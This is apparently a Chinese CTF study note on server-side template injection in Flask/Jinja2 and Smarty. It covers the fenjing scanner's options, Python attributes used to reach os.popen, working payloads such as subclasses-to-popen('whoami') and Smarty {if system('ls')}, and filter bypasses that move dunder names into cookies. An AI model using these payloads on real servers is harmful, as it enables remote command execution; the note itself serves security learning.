


**fenjing 使用**
要在fenjing目录下cmd
```plain
python -m venv vv_fenjing  创建一个venv虚拟环境
vv_fenjing\Scripts\activate.bat  进入对应的虚拟环境
python -m fenjing scan --url http://node4.anna.nssctf.cn:28079/ssti  扫描
```
可选options
```plain
Usage: python -m fenjing scan [OPTIONS]

  扫描指定的网站

Options:
  -u, --url TEXT       需要扫描的URL
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则进入交互模式
  --interval FLOAT     每次请求的间隔
  --detect-mode TEXT   检测模式，可为accurate或fast
  --user-agent TEXT    请求时使用的User Agent
  --header TEXT        请求时使用的Headers
  --cookies TEXT       请求时使用的Cookie
  --help               Show this message and exit.

Usage: python -m fenjing crack [OPTIONS]

  攻击指定的表单
Options:
  -u, --url TEXT       form所在的URL
  -a, --action TEXT    form的action，默认为当前路径
  -m, --method TEXT    form的提交方式，默认为POST
  -i, --inputs TEXT    form的参数，以逗号分隔
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则成功后进入交互模式
  --interval FLOAT     每次请求的间隔
  --detect-mode TEXT   分析模式，可为accurate或fast
  --user-agent TEXT    请求时使用的User Agent
  --header TEXT        请求时使用的Headers
  --cookies TEXT       请求时使用的Cookie
  --help               Show this message and exit.

Usage: python -m fenjing get-config [OPTIONS]

  攻击指定的表单，并获得目标服务器的flask config
Options:
  -u, --url TEXT      form所在的URL
  -a, --action TEXT   form的action，默认为当前路径
  -m, --method TEXT   form的提交方式，默认为POST
  -i, --inputs TEXT   form的参数，以逗号分隔
  --interval FLOAT    每次请求的间隔
  --detect-mode TEXT  分析模式，可为accurate或fast
  --user-agent TEXT   请求时使用的User Agent
  --header TEXT       请求时使用的Headers
  --cookies TEXT      请求时使用的Cookie
  --help              Show this message and exit.

```
1.类的方法总结

```plain
__class__            类的一个内置属性，表示实例对象的类。 返回当前对象所指向的类
__base__             类型对象的直接基类，或者说是父类
__bases__            类型对象的全部基类，以元组形式，当前类所有直接父类组成元组。也就是一个类在继承多个类的情况下返回父类的元组
__mro__              此属性是由类组成的元组，基于它来查找基类/父类。返回一个继承链  也就是说直接基类=父类
__subclasses__()     返回这个类的子类集合，Each class keeps a list of weak references to its immediate subclasses. This method returns a list of all those references still alive. The list is in definition order.
__init__             初始化类，返回的类型是function
__globals__          使用方式是 函数名.__globals__获取function所处空间下可使用的module、方法以及所有变量。
__dic__              类的静态函数、类函数、普通函数、全局变量以及一些内置的属性都是放在类的__dict__里
__getattribute__()   实例、类、函数都具有的__getattribute__魔术方法。事实上，在实例化的对象进行.操作的时候（形如：a.xxx/a.xxx()），都会自动去调用__getattribute__方法。因此我们同样可以直接通过这个方法来获取到实例、类、函数的属性。
__getitem__()        调用字典中的键值，其实就是调用这个魔术方法，比如a['b']，就是a.__getitem__('b')
__builtins__         内建名称空间，内建名称空间有许多名字到对象之间映射，而这些名字其实就是内建函数的名称，对象就是这些内建函数本身。即里面有很多常用的函数。__builtins__与__builtin__的区别就不放了，百度都有。
__import__           动态加载类和函数，也就是导入模块，经常用于导入os模块，__import__('os').popen('ls').read()]
__str__()            返回描写这个对象的字符串，可以理解成就是打印出来。
url_for              flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
get_flashed_messages flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
lipsum               flask的一个方法，可以用于得到__builtins__，而且lipsum.__globals__含有os模块：{{lipsum.__globals__['os'].popen('ls').read()}}
current_app          应用上下文，一个全局变量。

request              可以用于获取字符串来绕过，包括下面这些，引用一下羽师傅的。此外，同样可以获取open函数:request.__init__.__globals__['__builtins__'].open('/proc\self\fd/3').read()
request.args.x1   	 get传参
request.values.x1 	 所有参数
request.cookies      cookies参数
request.headers      请求头参数
request.form.x1   	 post传参	(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data  		 post传参	(Content-Type:a/b)
request.json		 post传json  (Content-Type: application/json)
config               当前application的所有配置。此外，也可以这样{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
g                    {{g}}得到<flask.g of 'flask_ssti'>

```
 'popen' 对象通常是 Python 中的 subprocess 模块中的一个类或函数，用于执行外部命令并获取其输出  
os是其中的一个模块
?name={{ config.__class__.__init__.__globals__['os'].popen('ls').read() }} 常见使用形式
**常见的注意的点**
1.base和bases的区别：base返回直接父类，一般只有一个，bases返回当前类的所有直接父类，可以是一个，也可以是多个，比如C(A,B)
2.mro()函数是以数组的形式返回一个继承链，__mro__是以元组的形式返回继承链
3.__subclasses__()方法调用时要加括号，返回的是这个类的所有子类
4.globals()调用全局变量，也就是获得所有变量，以字典的形式
5.没有指定父类的类，它的父类就是object
经典pyload

```plain
{{''.__class__.__base__.__subclasses__()[138].__init__.__globals__['popen']('whoami').read()}}
```
这里还有一个模板渲染的内容，就是通过和flask框架结合


这里面把网页模板放在templates文件夹下，运行py文件时flask会默认寻找该文件夹下的模板，然后把参数传入这个模板进行渲染，注意参数传输

```plain
from flask import render_template_string

@app.route('/')
def index():
    return render_template_string("<h1>Hello, {{ name }}!</h1>", name="小猪佩奇")
#存在ssti漏洞，name后面可以进行拼接从而进行命令执行
```
**1.smarty模板（用{判断是否存在rce，不知道为什么**
**典例（[HDCTF 2023]SearchMaster）**
{if}标签 使用

```plain
{if phpinfo()}{/if}
{if system('ls')}{/if}
```
 {php}标签（一般不用）

```plain
  {php}phpinfo(){/php}
```
{literal}标签
{literal}可以让一个模板区域的字符原样输出。 这经常用于保护页面上的Javascript或css样式表，避免因为Smarty的定界符而错被解析。
使用方法：<script language="php">phpinfo();(这儿输命令)</script>
在php5中能使用，但是在php7中这个方法就失效了，因为在php7中<script language="php"></script>，这种写法就已经不支持了
2.waf绕过
绕过过滤{{}}     
getitem()绕过[]过滤   __getitem__(117)代替[117]  


 使用request对象绕过对下划线和引号的过滤，

```plain
?name={{()[request.cookies.class][request.cookies.bases][0][request.cookies.subclasses]()}}
COOKIE:class=__class__;bases=__bases__;subclasses=__subclasses__

原始pyload：{{''.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
绕过过滤后的pyload：
GET:name={{()[request.cookies.class][request.cookies.bases][0][request.cookies.subclasses]()[59][request.cookies.init][request.cookies.globals][request.cookies.builtins][request.cookies.eval](request.cookies.cmd)}}
COOKIE:class=__class__;bases=__bases__;subclasses=__subclasses__;init=__init__;globals=__globals__;builtins=__builtins__;eval=__eval__;cmd=__import__("os").popen("ls /").read()
```

```plain
name={{ config[request.cookies.class][request.cookies.init][request.cookies.globals][request.cookies.so].popen(request.cookies.cmd).read()
```
